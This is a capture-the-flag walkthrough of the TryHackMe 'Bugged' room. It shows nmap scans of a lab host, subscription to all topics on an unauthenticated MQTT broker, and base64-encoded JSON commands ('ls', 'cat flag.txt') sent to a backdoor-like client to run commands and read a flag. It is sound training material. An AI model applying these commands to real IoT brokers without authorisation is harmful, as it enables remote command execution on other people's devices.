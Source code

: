 # [TryHackMe](https://tryhackme.com/dashboard) -> [Bugged](https://tryhackme.com/room/bugged) Walkthrough 🎯
## Task 1 - Analyze The Network 📊
John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what 
these weird network communications are?

What is the flag?

Let's Deploy the machine!  
## Reconnaissance 🕵
First, i Used `Nmap` to scan, As always...  
```shell
nmap -sV -p- 10.10.27.13
```
![image](https://user-images.githubusercontent.com/127505784/224350675-50e0a069-5fd7-41cd-ac47-0853b05ef8fb.png)

looking at the output of the scan we can see that port 1883 is open and running mosquitto service, But what is it mosquitto? 🤔  
>Mosquitto is an open-source message broker that implements the MQTT (Message Queuing Telemetry Transport) protocol. The MQTT protocol is a lightweight messaging protocol that is designed for use in IoT (Internet of Things) applications, where devices need to communicate with each other over a low-bandwidth, high-latency network.  
The Mosquitto service provides a way for devices to publish and subscribe to messages on a topic. It acts as a central hub for messages, allowing devices to communicate with each other without needing to know each other's IP addresses or network topology. Mosquitto is commonly used in applications such as home automation, industrial automation, and machine-to-machine (M2M) communication.

![image](https://user-images.githubusercontent.com/127505784/224354061-9588d7d3-6850-4f91-9841-96c6690d689a.png)

so we have simple case of IoT communication, To be Honest this is my first time coming acroos MQTT protocol.  
So after some research i found a way to interact with this protocol by using **"Mosquitto command line client"**    

Ok for some reason the machine stopped working for me, so i deployed the machine again.  
Now, Before going Straight to interact i want to try to run Nmap Script scan on port 1883.  
```shell
nmap -sC -sV -p 1883 10.10.83.7
```
![image](https://user-images.githubusercontent.com/127505784/224363579-48049882-5676-4d5c-970d-ad977d0e31ef.png)  

we can see that there some topics identified, even a base64 string  🤔. but before cheacking that out i want to list the topics by using the mosquitto command line client.  
## interacting with MQTT 🫂
To install the Mosquitto client on Kali Linux, you can use the following command:
```shell
sudo apt-get install mosquitto-clients
```
after we have that done we still need to find out what topics there are on the MQTT broker on 10.10.27.13.  
so to do that i used the following command:
```shell 
mosquitto_sub -t "#" -h 10.10.83.7
```
Let's breakdown the command:  
> *mosquitto_sub* --> This is the command to start the Mosquitto subscriber client.  
*-t "#"* --> This option sets the MQTT topic to subscribe to. The "#" character is a wildcard that matches all topics on the MQTT broker.  
*-h 10.10.83.7* --> This option specifies the IP address or hostname of the MQTT broker to connect to.  

So running that command gave us this output:  

![image](https://user-images.githubusercontent.com/127505784/224366063-1ecb95ef-578e-4b3c-a310-637c32476af6.png)

Looking at the output something suspicious caught my eye. The same Base64 encoded string from earlier. Let's decode that.  
we can simple decode that using online tools like [CyberChef](https://gchq.github.io/CyberChef/). But I prefer to do it in the terminal.

![image](https://user-images.githubusercontent.com/127505784/224359292-8878ca6c-e256-439e-929e-46fdcab24866.png)

from that piece of data we can understand that:  
>id = cdd1b1c0-1c40-4b0f-8e22-61b357548b7d --> UUID that may be used to uniquely identify an MQTT client.      
registered_commands = "HELP","CMD","SYS" --> lists the commands that the client is registered to handle.  
pub_topic = U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub --> The MQTT topic that the client should publish messages to.  
sub_topic = XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub --> The topic that the client should subscribe to.  

Now Let's interact with that, maybe tha flag is somewhere there.  
So we have the mosquitto client installed. Now i opend 2 terminals side by side.  
in the first i typed the following commad:  
```shell 
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h 10.10.83.7
```

![image](https://user-images.githubusercontent.com/127505784/224367514-084217f2-f004-463f-a99f-f8a315e28f2f.png)  

When the subscriber client is running, it will wait for messages published to the specified topic on the broker. Any messages published to the topic will be received and displayed on the command line.  

Now in the second Terminal i typed this command:
```shell
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "test_message" -h 10.10.83.7
```
![image](https://user-images.githubusercontent.com/127505784/224368712-0c768e07-5cf4-4dcd-b63a-435bdfefc944.png)  

When the publisher client is running, it will connect to the broker and publish the message to the specified topic. The message will be sent to all subscribers to that topic on the broker.  

And here we go, we got something in the first terminal

![image](https://user-images.githubusercontent.com/127505784/224369486-d9844ccd-5705-4a95-a7e0-71b8dd4ec717.png)  

Another base64 encoded string let's decode that.

![image](https://user-images.githubusercontent.com/127505784/224369849-9e055165-3613-483f-ab68-15e77ed16e69.png)

we can understand that there is a format that need to be followed...  
Let's try to fill the fields:  
we know that the id is "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d".  
from the list of the commands that the client is registered to handle we pick "CMD".  
and for the argument i will try "ls" command.  

That should look like This:  

> {"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}  

but sending that like this will not work. we already know that we need to send that in base64. like this:
```shell
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==" -h 10.10.83.7
```
![image](https://user-images.githubusercontent.com/127505784/224372906-0a7b27ad-346c-498e-bd1b-7641be19a88a.png)  

And after running that we can see that we got another base64 string in the other terminal  

![image](https://user-images.githubusercontent.com/127505784/224372748-3f36f034-9e1c-42ed-aedd-21d3754b6b71.png)

Let's decode that.  

![image](https://user-images.githubusercontent.com/127505784/224373298-b27b398f-056e-4d1f-9bc5-b4a4ee03eeba.png)  

We can see That there is a file called "flag.txt" lets try again to use the format to get that flag by simple using "cat" command.  
> {"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"} --> But in base64.
```shell
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=" -h 10.10.83.7
```  

After Running That command we will get the base64 encoded flag.txt...  

![image](https://user-images.githubusercontent.com/127505784/224376173-3ec10685-ad83-42dc-91a0-6624a1660a8f.png)  


![image](https://user-images.githubusercontent.com/127505784/224378642-a2c5c8e5-db3e-4b3c-8779-7cc773576995.png)
